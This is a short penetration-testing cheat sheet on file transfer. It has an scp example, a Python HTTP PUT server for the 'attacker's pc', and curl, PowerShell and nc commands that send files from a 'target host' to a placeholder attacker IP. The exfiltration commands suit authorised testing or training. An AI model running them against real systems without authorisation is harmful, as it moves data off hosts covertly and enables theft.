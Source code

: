 :arrow_forward: Downloading a file from the server with SSH

command 

```shell
scp <remote server username>@<remote server IP>:/<remote server folder>/<remote server filename> /<local folder>/<local filename>
# e.g., scp tester@192.168.10.99:/Users/tester/Desktop/123.txt /tmp/123.txt
```

:arrow_forward: Uploading a file from target server to our local HTTP server

HTTPutServer.py

```py
import sys
import signal
from threading import Thread
from BaseHTTPServer import HTTPServer, BaseHTTPRequestHandler



class PUTHandler(BaseHTTPRequestHandler):
    def do_PUT(self):
        length = int(self.headers['Content-Length'])
        content = self.rfile.read(length)
        self.send_response(200)
        with open(self.path[1:], "w") as f:
            f.write(content)


def run_on(port):
    print("Starting a HTTP PUT Server on {0} port {1} (http://{0}:{1}) ...".format(sys.argv[1], port))
    server_address = (sys.argv[1], port)
    httpd = HTTPServer(server_address, PUTHandler)
    httpd.serve_forever()


if __name__ == "__main__":
    if len(sys.argv) < 3:
        print("Usage:\n\tpython {0} ip 1337".format(sys.argv[0]))
        sys.exit(1)
    ports = [int(arg) for arg in sys.argv[2:]]
    try:
        for port_number in ports:
            server = Thread(target=run_on, args=[port_number])
            server.daemon = True # Do not make us wait for you to exit
        server.start()
        signal.pause() # Wait for interrupt signal, e.g. KeyboardInterrupt
    except KeyboardInterrupt:
        print "\nPython HTTP PUT Server Stoped."
        sys.exit(1)
```

Starting server on attacker's pc

```shell
python HTTPutServer.py <attacker ip> <attacker port>
```

Target host uploads files

```powershell
curl --upload-file test.txt http://<attacker ip>:<attacker port>/
```

```powershell
Invoke-RestMethod -Uri http://<attacker ip>:<attacker port>/<remote file name> -Method PUT -InFile <target file>
```

#### nc

Using `nc` to listen on port N

```shell
nc -lnvp 4444 > /tmp/which
```

Target host uploads files

```shell
cat /usr/bin/which | nc <attacker ip> <attacker port>
```

Checking file is correct

attacker

```shell
md5sum /tmp/which
# e942f154ef9d9974366551d2d231d936
```

target

```shell
md5sum /usr/bin/which
# e942f154ef9d9974366551d2d231d936
```